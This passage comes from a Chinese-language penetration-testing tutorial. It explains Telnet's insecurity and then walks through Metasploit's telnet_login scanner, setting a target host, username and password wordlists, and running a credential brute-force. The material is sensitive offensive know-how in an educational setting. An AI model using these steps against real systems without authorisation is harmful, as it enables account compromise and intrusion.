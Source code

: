 ![](img/3a1e0848-b25b-4f21-843c-94d39b60b94b.png)

1.  在这一点上，任何在控制台上执行的命令都将在目标上执行。执行`uname -a`命令来验证并打印系统信息：

![](img/481363eb-6936-42b7-89f4-7baeac5cad09.png)

通常，在对公共和内部系统进行简单的端口扫描时，端口`23`通常是用于远程管理的开放端口。但是，端口`23`是 Telnet 协议使用的默认端口。Telnet 是一种不安全的协议，允许用户通过网络远程访问计算机，并且所有通过用户之间传递的流量都是未加密的。任何启用 Telnet 的设备都容易受到中间人攻击，攻击者可以轻松捕获用户凭据。

1.  让我们使用`search`命令查找一个有用的模块，以检查 Telnet 启用设备上的有效用户凭据。首先，使用以下命令：

```
search telnet
```

1.  通常，将与搜索条件相符的结果列表呈现在控制台上。在这个练习中，我们将使用特定的扫描程序来检查验证的用户帐户：

```
msf5 > use auxiliary/scanner/telnet/telnet_login
```

1.  接下来，设置您的远程主机：

```
msf5 auxiliary(scanner/telnet/telnetlogin) > set RHOSTS 10.10.10.100
```

1.  如果您有包含不同用户名的单词列表，请使用以下命令（指定文件路径）：

```
msf5 auxiliary(scanner/telnet/telnetlogin) > set USER_FILE <username word list>
```

如果您有密码列表，可以选择使用以下命令：

```
msf5 auxiliary(scanner/telnet/telnetlogin) > set PASS_FILE <wordlist>
```

1.  但是，如果您没有任何单词列表，也没关系。您可以使用以下命令指定单个用户名和密码：

```
msf5 auxiliary(scanner/telnet/telnetlogin) > set USERNAME uname msf5 auxiliary(scanner/telnet/telnetlogin) > set PASSWORD word
```

1.  完成后，使用`run`命令执行`auxiliary`模块：

```
 msf5 auxiliary(scanner/telnet/telnetlogin) > run 
```
